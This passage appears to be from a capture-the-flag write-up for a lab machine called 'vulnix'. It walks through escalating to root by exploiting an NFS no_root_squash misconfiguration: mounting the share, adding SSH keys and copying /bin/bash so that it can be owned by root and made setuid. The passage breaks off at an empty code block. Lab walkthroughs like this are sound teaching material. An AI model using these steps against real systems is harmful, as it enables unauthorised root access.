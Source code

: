 ![evidence](./static/18-root-shell.png)


## Alternative Privilege escalation

But I could also escalate privileges in another way, and it is with what I find  [`Hacktricks - nfs no root squash misconfiguration PE`](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/nfs-no_root_squash-misconfiguration-pe):

![evidence](19-nfs-privesc.png)

When I use the `mount` command:
```shell
$ sudo mkdir /mnt/user/ && sudo mount -t nfs 192.168.56.118:/home/user \
> /mnt/user -o nolock
```
And I check the files:
```shell
$ ls -la /mnt/user
-rw-r--r-- 1 xxxx  docker  220 Sep  2  2012 .bash_logout
-rw-r--r-- 1 xxxx  docker 3.5K Sep  2  2012 .bashrc
drwx------ 2 xxxx  docker 4.0K Sep  2  2012 .cache
-rw-r--r-- 1 xxxx  docker  675 Sep  2  2012 .profile
-rw------- 1 xxxx  docker    7 Sep  2  2012 .rhosts
```
Then the file `/mnt/user/.rhosts` contains `+ user`, and I do not need to create a user called `user`, and that is because of the `no_root_squash` option. When I add the ssh keys to the user `user`, and I connect with the `ssh` command:
```shell
$ ssh -i .ssh/id_rsa user@vulnix
```
And I copy the target binary `/bin/bash` to the user's home directory:
```shell
$ user@vulnix:~$ cp /bin/bash .
```
And I go back to my attack machine, and I become root to change the owner of the binary `/mnt/usr/bash`
```shell
$ root@xxxx:/mnt/user# chown root ./bash
```
And I give it the `setuid` permissions:
```shell
```